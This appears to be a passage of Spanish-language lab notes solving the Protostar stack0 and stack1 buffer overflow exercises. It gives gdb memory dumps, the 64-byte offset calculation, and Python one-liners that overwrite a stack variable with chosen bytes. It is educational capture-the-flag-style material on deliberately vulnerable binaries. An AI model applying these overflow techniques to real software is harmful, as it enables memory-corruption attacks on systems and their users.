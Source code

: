 ```console
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have changed the 'modified' variable
Breakpoint alcanzado !
(gdb) x/24wx $esp
0xbffff640:	0x08048500	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff650:	0xb7fd7ff4	0xb7ec6165	0xbffff668	0x41414141
0xbffff660:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff670:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff680:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff690:	0x41414141	0x41414141	0x41414141	0x41414141 -> Ahora modified en vez de ser 0 es AAAA por tanto la hemos modificado.
(gdb) info registers
eip            0x41414141	0x41414141   
```
Como el puntero de insutrucción tambíen esta sobreescrito el programa corrompe, ya que la direccion 0x41414141 no existe.

```console
(gdb) p 0xbffff69c - 0xbffff65c -> Restamos la direccion de la varaible modified y en donde empezamos a escribir las "A"
$5 = 64 
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*64)" | ./stack0
Try again?
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*68)" | ./stack0
you have changed the 'modified' variable -> Aquí hemos sobreescrito la varaible pero sin corromper el eip.
```
Como conclusión, si tenemos un trozo de memoria pensado para qel usaurio meta datos pero este escriba mas de la cuenta, 
puede sobreescribir otras datos en la memoria y modificar el programa por dentro.

---------------------------------------------------------------------------
# Sobreescribir una variable con datos concretos -> [stack1](https://exploit.education/protostar/stack-one/)

Aquí también hay que sobreescribir una variable, pero en vez de que simplemente no sea 0, tiene que valer algo en concreto.
Nos piden en el código que valga "0x61626364" o sea como los bytes se dan la vuelta es "\x64\x63\x62\x61"

```console
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack1
(gdb) set disassembly-flavor intel
(gdb) disas main
0x080484ab <main+71>:	cmp    eax,0x61626364 -> Lo compara con eax
```
El buffer es del mismo tamaño que antes...

```console
[user@protostar]-[/opt/protostar/bin]:$ ./stack1 $(python -c "print('A'*64)")
Try again, you got 0x00000000
[user@protostar]-[/opt/protostar/bin]:$ ./stack1 $(python -c "print('A'*68)")
Try again, you got 0x41414141
[user@protostar]-[/opt/protostar/bin]:$ ./stack1 $(python -c "print('A'*64 + '\x64\x63\x62\x61')")
you have correctly got the variable to the right value
```
